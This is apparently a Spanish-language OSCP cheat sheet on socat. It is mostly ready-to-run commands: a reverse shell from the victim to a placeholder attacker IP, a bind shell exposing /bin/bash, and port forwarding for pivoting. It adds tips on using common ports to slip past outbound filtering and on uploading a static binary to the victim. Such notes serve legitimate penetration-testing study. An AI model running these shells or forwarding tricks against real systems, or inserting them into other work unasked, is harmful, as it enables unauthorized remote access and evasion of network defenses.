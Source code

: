 `socat` (SOcket CAT) es una herramienta avanzada para redirección de conexiones y creación de túneles. En OSCP se usa principalmente para obtener shells interactivas con TTY real, establecer reverse shells fiables o montar reenvíos de puertos en entornos restringidos.

---

## Instalación

```bash
sudo apt install socat
```

Si necesitas socat para Windows:
- Puedes subir el binario precompilado desde: https://github.com/andrew-d/static-binaries

---

## Reverse Shell con TTY Real (Linux)

### En el atacante (Kali):
```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

### En la víctima:
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<KALI_IP>:4444
```

Esto proporciona una shell completamente interactiva y estable.

---

## Bind Shell (en la víctima)

```bash
socat TCP-LISTEN:4444,reuseaddr,fork EXEC:/bin/bash
```

### En el atacante:
```bash
socat -,raw,echo=0 TCP:<VICTIM_IP>:4444
```

---

## Reenvío de Puertos (Port Forwarding)

### Redirigir un puerto remoto a tu host local (tipo `ssh -L`)
```bash
socat TCP-LISTEN:8080,fork TCP:<IP_INTERNA>:80
```

### Acceder desde tu navegador:
```
http://localhost:8080
```

---

## Casos de Uso OSCP

- Shells interactivas sin usar `python -c` en la víctima
- Reenvío de puertos para pivoting
- Alternativa a `nc` cuando se necesita estabilidad total

---

## Buenas Prácticas

- Usa puertos comunes (80, 443, 8080) si hay filtrado saliente
- Sube el binario estático si la víctima no tiene socat instalado
- Combinable con chisel, ssh y otros tunneling tools

---
